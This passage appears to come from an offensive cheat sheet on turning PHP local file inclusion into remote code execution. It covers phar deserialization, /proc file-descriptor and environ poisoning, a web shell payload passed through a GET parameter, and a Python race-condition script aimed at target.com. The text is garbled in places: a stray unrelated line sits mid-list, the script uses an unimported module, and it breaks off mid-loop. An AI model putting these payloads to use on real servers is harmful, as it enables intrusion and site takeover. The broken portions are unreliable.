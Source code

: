 If a file operation is now performed on our existing Phar file via the phar:// wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method __destruct() or __wakeup() defined, then those methods are automatically invoked

```php
class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// output: rips
include('phar://test.phar');
```

NOTE: The unserialize is triggered for the phar:// wrapper in any file operation, `file_exists` and many more.

## LFI to RCE via /proc/*/fd

1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD, with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)

## LFI to RCE via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```powershell
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

## LFI to RCE via upload

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```powershell
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata for the pictures/doc/pdf

## LFI to RCE via upload (race)
Worlds Quitest Let's Play"
* Upload a file and trigger a self-inclusion.
* Repeat 1 a shitload of time to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/[0-9a-zA-Z]{6}
* Enjoy our shell.

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
```